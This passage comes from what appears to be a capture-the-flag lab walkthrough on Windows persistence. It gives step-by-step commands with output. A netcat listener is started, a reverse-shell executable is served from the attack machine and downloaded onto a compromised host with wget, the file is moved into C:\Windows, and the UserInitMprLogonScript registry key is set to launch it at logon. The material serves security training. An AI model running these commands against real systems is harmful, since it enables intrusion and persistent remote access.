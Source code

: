 ```Bash
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine to download our payload from our attack machine and save it under a different name 
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine display the files and directories that are in our current working directory to verify if the payload has been successfully downloaded from our attack machine, which it has
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine to move the payload from the current working directory into the **C:\Windows** directory
```PowerShell
```PowerShell
PS C:\Users\Administrator>move revshell.exe C:\Windows
        1 file(s) moved.
```
9. `regedit` from the compromised Windows machine to open up their Registry Editor (**regedit**), which we'll then go to the **HKCU\Environment** registry, which stores the environment variables for the currently logged-in user, and add the **UserInitMprLogonScript** registry, which is a registry that executes logon scripts during a user's login, and set its value as the path to our payload to, which will execute our payload after logging in
```PowerShell
C:\Users\Administrator>regedit
```